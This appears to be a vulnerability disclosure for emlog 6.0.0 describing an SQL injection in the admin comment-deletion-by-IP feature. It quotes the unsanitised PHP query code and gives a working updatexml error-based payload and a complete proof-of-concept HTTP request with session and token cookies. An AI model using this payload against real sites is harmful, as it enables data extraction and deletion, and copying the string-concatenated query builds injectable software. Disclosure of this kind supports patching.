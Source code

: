 emlog has SQL injection vulnerability

vulnerability in admin/comment.php line 41:

if ($action== 'delbyip') {
    LoginAuth::checkToken();
    if (ROLE != ROLE_ADMIN) {
        emMsg('权限不足！', './');
    }
    $ip = isset($_GET['ip']) ? $_GET['ip'] : '';
    $Comment_Model->delCommentByIp($ip);
    $CACHE->updateCache(array('sta','comment'));
    emDirect("./comment.php?active_del=1");
}

vulnerability in include/lib/loginauth.php line 226:

public static function checkToken(){
	$token = isset($_REQUEST['token']) ? addslashes($_REQUEST['token']) : '';
	if ($token != self::genToken()) {
		emMsg('权限不足，token error');
	}
}

vulnerability in include/model/comment_model.php line 150:

function delCommentByIp($ip) {
        $blogids = array();
        $sql = "SELECT DISTINCT gid FROM ".DB_PREFIX."comment WHERE ip='$ip'";
        $query = $this->db->query($sql);
        while ($row = $this->db->fetch_array($query)) {
            $blogids[] = $row['gid'];
        }
        $this->db->query("DELETE FROM ".DB_PREFIX."comment WHERE ip='$ip'");
        $this->updateCommentNum($blogids);
    }

Login Required admin.
The token parameter constructed is the value of "EM_TOKENCOOKIE_..." in the cookie.
action=delbyip
ip=123' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)%23

POC：
GET /admin/comment.php?action=delbyip&ip=123%27%20and%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1)%23&token=665544d7a8c17d72576703859322548e HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=chk81h02l8rclkjbpdpm7ffjn3; EM_AUTHCOOKIE_ob0n96t5QV8HTVmXGtXUMPsWTSWNWSLZ=admin%7C%7Cae6c6d2833a616b48d91c52c029cb63e; EM_TOKENCOOKIE_ea9ab1c72af2adc42fabf01c92478f75=665544d7a8c17d72576703859322548e
Upgrade-Insecure-Requests: 1

An issue was discovered in emlog 6.0.0
There is a SQL injection vulnerability that via /admin/comment.php?action=delbyip&ip=123' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)%23&token=665544d7a8c17d72576703859322548e